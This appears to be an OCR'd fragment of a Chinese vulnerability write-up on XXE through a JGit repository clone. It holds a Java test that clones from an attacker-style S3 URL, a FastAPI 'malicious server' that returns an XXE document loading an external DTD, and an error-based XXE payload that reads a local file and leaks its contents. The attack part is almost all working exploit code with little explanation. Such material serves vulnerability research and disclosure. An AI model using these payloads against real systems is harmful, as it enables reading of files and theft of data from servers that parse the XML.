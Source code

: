 ```
        }
    }

    @Test
    public void test() throws GitAPIException {
        String url = "amazon-s3://user:pass@src123456.xxoo.pro?/";
//        String url = "http1://github.com/WebGoat/WebGoat";
        clone(new File("/tmp/code/"), "master", url, "123", "333");
    }
}

```  
### 恶意服务端返回包（FastAPI 示例）  
```
from fastapi import FastAPI, Request
from fastapi.responses import PlainTextResponse
app = FastAPI()

payload = '''<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://127.0.0.1:8000/error.dtd">
<data>&send;</data>'''

@app.get("/", response_class=PlainTextResponse)
async def root(request: Request):
    raw_query = request.url.query
    print(raw_query)
    if "prefix" in raw_query:
        return payload
    return "#test"



if __name__ == "__main__":
    import uvicorn
    uvicorn.run(app, host="0.0.0.0", port=80)
```  
### XXE-Payload  
```
<!ENTITY % file SYSTEM "file:///tmp/mm.txt">
<!ENTITY % filename "mm.txt">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///%filename; 文件内容：%file;'>">
%eval;
%error;
```  
###   
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
